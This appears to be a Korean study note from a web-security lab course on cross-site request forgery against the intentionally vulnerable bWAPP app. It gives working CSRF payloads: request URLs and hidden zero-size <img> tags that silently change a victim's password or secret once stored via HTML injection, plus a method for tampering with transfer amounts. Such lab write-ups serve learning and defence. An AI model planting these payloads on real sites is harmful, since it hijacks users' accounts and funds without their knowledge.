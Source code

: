 # week4
## 크로스 사이트 요청 변조
* 공격자에 의해 사용자가 의도하지 않은 악의적인 행위를 서버에 요청
* 공격자가 입력한 악의적인 스크립트 코드에 접근
* 사용자의 웹 브라우저 웹 서버에 악의적인 요쳥
* 웹 서버는 변조된 요청에 응답
* 두가지 
  * password 변조
  * 금전에 관련된 account 관련 값들을 변조
### CSRF(change password)
* 비밀번호 값을 바꿀 수 있는 페이지
* burp suite로 잡은 다음에 burf suite에서
~~~
"http://192.168.93.128/bWAPP/csrf_1.php?password_new=apple&password_conf=apple&action=change"
~~~
* 값을 복사하여 html injection-stored(blog)에 수정하여 넣어줌
~~~
<img src="http://192.168.93.128/bWAPP/csrf_1.php?password_new=apple&password_conf=apple&action=change" height=0 width=0>
~~~
* 내용은 보이지 않지만 비밀번호가 수정된 것을 확인이 가능
### CSRF (change secret)
* abcd라는 값을 new secret 란에 보내면 burp suite에서 다시 값을 잡을 수 있음
~~~
http://192.168.93.128/bWAPP/csrf_3.php?secret=abcd&login=bee&action=change
~~~
* 이 값을 다시 img src로 설정해서 보내주면 html stored 방식으로 올리는 것이 가능
~~~
<img src="http://192.168.93.128/bWAPP/csrf_3.php?secret=abcd&login=bee&action=change">
~~~
* 위와 같은 방식으로 secret을 바꾸는 것이 가능
### CSRF(transfer amount)
* url에서 계좌 값과 amount를 값을 원하는대로 바꾼 후 이 url을 복사하여 다시 html store blog에 가서 injection 할 수 있음
